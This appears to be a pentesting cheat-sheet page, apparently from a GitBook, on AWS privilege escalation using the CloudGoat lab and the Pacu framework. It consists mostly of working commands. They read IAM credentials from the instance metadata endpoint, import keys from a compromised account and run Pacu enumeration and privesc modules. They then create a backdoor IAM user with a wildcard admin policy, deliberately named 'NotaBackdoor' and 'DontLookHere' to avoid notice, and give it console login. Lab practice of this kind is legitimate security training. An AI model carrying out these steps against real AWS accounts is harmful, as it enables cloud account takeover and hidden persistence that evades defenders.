 # AWS Priv Esc + GUI access

## AWS Priv Esc + GUI access

### IAM data

IAM creds can be stored in the metadata server \(from an instance shell\)

[http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM\_ROLE\_HERE](http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_ROLE_HERE)

![](../../../../.gitbook/assets/4fbc487d7d2245289a5c01a7c61af056.png)

#### Priv esc using cloudgoat

Ensure that your main account is configured. \(~/.aws/\)

if not :

```text
aws configure
```

* Import access and secret key for cloudgoat admin account

```csharp
aws configure --profile ACCOUNT_NAME
```

* Run cloudgoat

```csharp
docker run -it -v /root/.aws/:/root/.aws rhinosecuritylabs/cloudgoat:latest
```

* create an IP whitelist and a profil using the admin account

```csharp
python cloudgoat.py config whitelist
python cloudgoat.py config profile
```

* Import access and secret key from compromised account \(from cloudgoat output\)

```csharp
aws configure --profile raynor
```

### Pacu

* Launch PACU and add a profile name
* import the profile ke:

```csharp
import_keys raynor
```

* Enumerate

```csharp
whoami
run iam__detect_honeytokens
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
```

* priv esc

```csharp
run iam__privesc_scan
```

Press Enter then choose v3.

#### GUI Access

* Create a backdoor json policy file :

```bash
{

        "version": "2012-10-17",
        "Statement": [

                {
                        "Sid": "NotaBackdoor",
                        "Effect": "Allow",
                        "Action": "*",
                        "Resource": "*"
                }

        ]
}
```

* With an admin account, create a GUI user 

```csharp
aws iam create-user --user-name gui-user --profile raynor
```

note User ID and the 12 digits

`"UserId": "REDACTED", "Arn":"arn:aws:iam::REDACTED:user/gui-user",`

* Attach the backdoored json to the profile :

```csharp
aws iam put-user-policy --user-name gui-user --policy-name DontLookHere --policy-document file://admin-policy.json --profile raynor
```

* Create a password for the gui-user

```csharp
aws iam create-login-profile --user-name gui-user --password "PASSWORDHERE" --profile raynor
```

* Login into the console with your new account

`http://YOUR_12_DIGITS_HERE.signin.aws.amazon.com/console`

* Enjoy :\)

![](../../../../.gitbook/assets/9998f28a9989491bb0ead6c2b97cddbb.png)

### Resources

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat" %}

{% embed url="https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/" %}



